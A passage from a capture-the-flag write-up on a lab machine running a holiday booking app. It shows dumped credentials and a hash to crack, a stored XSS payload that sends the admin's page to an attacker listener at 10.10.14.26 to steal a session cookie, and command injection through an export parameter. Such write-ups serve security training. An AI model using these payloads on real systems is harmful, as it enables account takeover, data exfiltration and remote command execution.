 We can then dump the database table names, and then users table to get the following:
```
[17:10:45] [INFO] retrieved: fdc8cd4cff2c19e0d1022e78481ddf36
[17:10:58] [INFO] retrieved: RickA
```
You can crack the hash via your preferred method (<a href="https://crackstation.net">CrackStation</a> is usually good for these purposes), and login as RickA.
<img src="{{ "img/holiday/login.png" | relative_url }}" />
It looks like we're in some sort of holiday booking system. We have the ability to view bookings and add notes to the bookings. Something that caught my eye is the following text on the "Add Note" page:
```
All notes must be approved by an administrator - this process can take up to 1 minute.
```
When we try to add a note, it appears after ~1 minute, meaning there is some kind of "manual" review step. This should make you think of <a href="https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)">XSS</a> right away. Something that threw me at first is that the cookies are <a href="https://www.owasp.org/index.php/HttpOnly">HttpOnly</a>, which usually means we can't actually steal any cookies; however, since our other enumerations have come up with squat, let's give it a try.

XSS can be extremely painful to exploit, as it is highly browser dependant, and we don't know if the admin is using Firefox or Chrome; if they have XSS security flags enabled or disabled; etc. So let's just brute force it: OWASP has a <a href="https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet">great cheat sheet</a> of XSS evasion techniques. 

The goal is to get the "admin" browser to make a web request to us with all of the information we can possible send. The first step is to start a simple HTTP client so that we can actually receive the requests:
{% highlight shell %}
~ » python2 -m SimpleHTTPServer 8000 
Serving HTTP on 0.0.0.0 port 8000 ...
{% endhighlight %}
and then think about what kind of HTML we can inject that will send us the data we want. We know the cookies are a bust, so let's just get the HTTP content to start (sidenote: I'm using an `img` tag because trial and elimination determined it was something that didn't get as escaped):
{% highlight html %}
<img src="deadbeef" onerror="eval(this.src='http://10.10.14.26:8000/?x='+bto(document.documentElement.innerHTML;)">
{% endhighlight %}
Next, we have to perform various obfuscations on it to get past the server-side filter (hint: look into `String.fromCharCode`) until we finally get a response from the admin:
{% highlight shell %}
10.10.10.25 - - [19/Nov/2017 17:36:30] "GET /?x=PGhlYWQ+CiAgICAgID...
{% endhighlight %}
which we just have to base64 decode back into HTML. This contains a hidden input with the admin's cookie (a little too conviently; not sure why they just didn't use non-HttpOnly cookies). Now we just have to use a cookie manager to overwrite our cookie with the admin's, and navigate to `/admin`.
<img src="{{ "img/holiday/admin.png" | relative_url }}" />
This page allows us to export from the bookings and notes database tables. The data is returned after a `GET` request to `/admin/export?table=`. If we play around with the `table` parameter, the following error appears:
`Invalid table name - only characters in the range of [a-z0-9&\s\/] are allowed` - so we have a blacklist to bypass. We also very quickly find that the export lets us execute arbitray commands:
```
GET /admin/export?table=bookings%26ls
index.js
layouts
node_modules
package.json
setup
static
views
1|e2d3f450-bdf3-4c0a-8165-e8517c94df9a|Wilber
[...]
```